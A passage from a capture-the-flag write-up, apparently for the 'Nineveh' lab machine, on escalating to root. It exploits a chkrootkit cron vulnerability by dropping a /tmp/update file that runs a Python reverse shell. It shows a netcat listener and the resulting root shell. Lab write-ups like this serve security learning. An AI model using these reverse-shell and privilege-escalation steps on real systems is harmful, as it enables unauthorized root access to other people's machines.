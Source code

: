 ~~~
amrois@nineveh:/tmp$ cat /usr/sbin/report-reset.sh
#!/bin/bash

rm -rf /report/*.txt
~~~

~~~
amrois@nineveh:/tmp$ ls -lah /report/
total 64K
drwxr-xr-x  2 amrois amrois 4.0K Feb  6 11:06 .
drwxr-xr-x 24 root   root   4.0K Jul  2  2017 ..
-rw-r--r--  1 amrois amrois 4.8K Feb  6 11:00 report-18-02-06:11:00.txt
-rw-r--r--  1 amrois amrois 4.8K Feb  6 11:01 report-18-02-06:11:01.txt
-rw-r--r--  1 amrois amrois 4.8K Feb  6 11:02 report-18-02-06:11:02.txt
-rw-r--r--  1 amrois amrois 4.8K Feb  6 11:03 report-18-02-06:11:03.txt
-rw-r--r--  1 amrois amrois 4.8K Feb  6 11:04 report-18-02-06:11:04.txt
-rw-r--r--  1 amrois amrois 4.8K Feb  6 11:05 report-18-02-06:11:05.txt
-rw-r--r--  1 amrois amrois 4.8K Feb  6 11:06 report-18-02-06:11:06.txt
~~~

After a research on google I discovered that the reports were generated by chkrootkit. Because of crontab, I supposed it was vulnerable to [this](https://www.exploit-db.com/exploits/33899/) exploit. As described I created a file in /tmp that execute a python reverse shell called update and I got it:

~~~
root@kali:~# nc -vlp 5555
listening on [any] 5555 ...
connect to [10.10.14.6] from nineveh.htb [10.10.10.43] 60862
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
~~~

:-)